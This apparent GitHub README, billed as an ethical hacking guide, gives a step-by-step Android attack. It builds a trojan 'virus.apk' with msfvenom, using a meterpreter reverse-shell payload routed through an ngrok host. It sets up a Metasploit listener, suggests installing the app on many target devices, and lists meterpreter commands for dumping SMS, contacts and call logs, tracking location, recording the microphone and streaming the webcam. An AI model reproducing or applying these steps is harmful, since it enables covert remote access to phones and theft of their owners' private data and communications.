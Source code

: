 # LINUX GUIDE
## Hacking-and-Patching
The fundamentals of computer and network security specializations. Hacking and patching, it is a short course title, but it says it all. This repository explains how to hack devices ethically (for you ofcourse).

# 1. SCRCPY MODULE
Using the scrcpy module is quite easy but still brainstorming on it additional functions
  >- ## STEPS:
  1. Install scrcpy: use the command `apt-get install scrcpy`
  2. Enable developer mode on the android to be coonected to the PC
  3. Enable USB Debugging 
  4. Connect the USB cord to the PC
  5. In your linux VM enable connection to the VM
  6. Type `scrcpy` after successful connection to the VM and you should see your phone screen displayed on your VM

# 2. METASPLOIT FRAMEWORK
Knowledge is power, especially when it’s shared. A collaboration between the open source community and Rapid7, Metasploit helps security teams do more than just verify vulnerabilities, manage security assessments, and improve security awareness; it empowers and arms defenders to always stay one step (or two) ahead of the game.
  ## ANDROID HACKING: using NGROK
  First make sure your antivirus does not interfere with your machine 
  - download from [link:](https://ngrok.com/)
  - download the file and extract using `sudo tar xvzf ngrok-stable-linux-amd64.tgz` in the directory where it was downloaded
  - first sign-up to get an auth-token
  - Then in your VM command line input: `./ngrok [authtoken]`
  - `msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=4.tcp.ngrok.io LPORT=4444 R > /home/kali/Hacking/android-exploitation/virus.apk` 
  
  ```
  Here:
  -p indicates a payload type
  android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
  LHOST is your local IP
  LPORT is your IP’s listening port
  /home/kali/Hacking/android-exploitation would give the output directly
  apk is the final malicious app
  If you navigate to the output path /home/kali/Hacking/android-exploitation, we’ll find the injected apk file
  ```
  - We need to set a listener on our PC/server. If the target device installs and opens the “virus.apk” application, it’ll start sending a reverse connection to our listener.
  To create a listener using Metasploit, run these commands:
  - Run `msfconsole`
  - use `exploit/multi/handler`
  - set `payload android/meterpreter/reverse_tcp`
  - set `LHOST 4.tcp.ngrok.io`
  - set `LPORT 5544`
  - `exploit` 
  
  install the `apk` on the targetted device and open the app. If the user opens the app, it’ll send a connection to our listener and create a session. We can install the virus     app on many devices.
  To sell all sessions, run **background** command from the listener console. It’ll show all available connected devices sessions
  Available Commands
We can then enter help to see all the Android meterpreter commands.

I’m sharing some commands. Have a look:

  
   |Command | Description|
   | ---    | ---  |
  |1. app_list--	    |          Show all installed applications|
  |2. app_install--	   |       Request to install apk file|
  |3. app_run--	        |      Start an application|
  |4. app_uninstall--	   |     Request to uninstall application|
  |5. dump_contacts--	    |    Get all contacts and save in our PC|
  |6. dump_calllog--	   |       Get call log and save in our PC|
  |7. dump_sms--	        |      Get all sms and save in our PC|
  |8. send_sms--	       |      Send sms to any number|
  |9. geolocacte--	      |      Current lat and long of the device|
  |10. record_mic--	       |   Sound recorder|
  |11. webcam_list--        |   Available cameras|
  |12. webcam_snap 1/2/3--	 |   Take photo by selecting camera|
  |13. webcam_stream 1/2/3--	|  Open specific camera and live streaming|

  
  
# Detecting Command Injection
The pdf "Commix: Detecting and exploiting command injection flaws.", is by Anastasios Stasinopoulos, Christoforos Ntantogian, Christos Xenakis from Department of Digital Systems, University of Piraeus.

